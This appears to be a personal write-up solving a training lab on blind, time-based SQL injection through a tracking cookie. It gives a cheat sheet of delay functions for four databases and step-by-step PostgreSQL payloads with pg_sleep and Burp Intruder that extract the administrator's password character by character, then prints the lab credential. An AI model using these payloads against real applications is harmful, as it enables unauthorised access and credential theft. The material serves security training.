 # Description
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.
# Solution
## Cheatsheet
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| DB         | Description                           |
| ---------- | ------------------------------------- |
| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |
1) **Verify the application takes time delays:**
```
' || SELECT pg_sleep(10)
```

```
'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) END--
```
=> Response with 10s delay.

```ad-note
The string, function (`pg_sleep()`,...) , statement (`SELECT` ...) have to be connected with concatenation ( `||`, `+`, ...) or `;` (start new statement) or operator (`AND`, `OR`) or `UNION` after closing `'`.
```

2) Confirm the administrator user.
```
'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) END FROM users--
```
=> Response with 10s delay -> confirm.

3) Determine the length of password.
```
'; SELECT CASE WHEN (LENGTH(password)>1) THEN pg_sleep(10) END FROM users--
```
=> Response with 10s delay -> it works.

- Try with **sniper attack** on Intruder:
```
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>$1$) THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users--
```

![](../../Image/Pasted%20image%2020250516235144.png)

=> Confirm the length is 20 as returning normal after it.

```ad-note
To observe more obviously, you can change the resource pool, set to 1 thread not 10 threads (default).
```

4) **Specify the password**
```
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$1$,1)='a') THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users--
```

![](../../Image/Pasted%20image%2020250517000407.png)

=> administrator:vppqxdfgetrg2kgyiqmw